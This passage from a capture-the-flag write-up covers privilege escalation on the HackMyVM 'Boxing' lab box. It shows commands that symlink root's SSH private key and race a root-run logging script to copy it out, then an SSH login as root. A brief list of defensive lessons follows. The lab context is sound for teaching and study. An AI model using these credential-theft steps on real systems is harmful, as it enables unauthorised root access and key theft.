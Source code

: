 ### **Steps:**

1️⃣ Created a symlink:

```bash
ln -s /root/.ssh/id_rsa id_rsa_link
```
{: .nolineno}
2️⃣ Ran a loop to repeatedly trigger `sos.sh`:

```bash
while true; do
    touch /home/cassius/user.txt
    cp /opt/sos/logs/output-logs.txt ~/ 2>/dev/null
done
```
{: .nolineno}
3️⃣ After a few seconds, `output-logs.txt` appeared in my home directory containing:

```
-----BEGIN OPENSSH PRIVATE KEY-----
...
```
{: .nolineno}
![](Pasted%20image%2020250627130351.png)
_Extracted `id_rsa` file from root directory_

#### ✅ Result:

I **successfully dumped the root SSH private key** using:

- A **symlink + `file *` misconfiguration**.
- A **race condition on log file permissions**.
- An **aggressive copy loop** to capture the file during its readable window.

#### 🛡️ Defensive Lessons:

🔒 Never run `file *` as root on user-writable directories.  
🔒 Avoid logging sensitive data to world-readable locations, even temporarily.  
🔒 Use strict `umask` or `O_CREAT | O_EXCL` with correct permissions on sensitive logs.

Lets sort this private key and get the root shell now 🔻

![](Pasted%20image%2020250626113707.png)
_This output is sorted in `sublime-text` Tool text editor_

```bash
┌──(kali🔥kali)-[~/Downloads/HackMyVM/Boxing]
└─$ awk -F: '{ print $1 }' root_id_rsa > root
                                                                                                                              
┌──(kali🔥kali)-[~/Downloads/HackMyVM/Boxing]
└─$ chmod 600 root            
                                                                                                                              
┌──(kali🔥kali)-[~/Downloads/HackMyVM/Boxing]
└─$ ssh root@boxing.hmv -i root       
Linux boxing 6.1.0-17-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.69-1 (2023-12-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Feb  4 17:19:34 2024 from 192.168.0.30
root@boxing:~# whoami
root
root@boxing:~# id
uid=0(root) gid=0(root) groupes=0(root)
```
